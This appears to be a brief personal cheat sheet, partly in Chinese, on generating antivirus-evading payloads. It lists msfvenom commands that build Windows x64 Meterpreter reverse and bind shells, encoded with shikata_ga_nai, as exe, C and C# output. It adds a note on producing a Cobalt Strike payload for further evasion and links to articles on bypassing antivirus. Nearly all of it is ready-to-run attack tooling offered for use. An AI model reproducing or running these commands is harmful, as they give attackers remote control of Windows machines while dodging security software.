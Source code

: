 msf 

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article
- rw_bypass_免杀_BypassAV.html
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
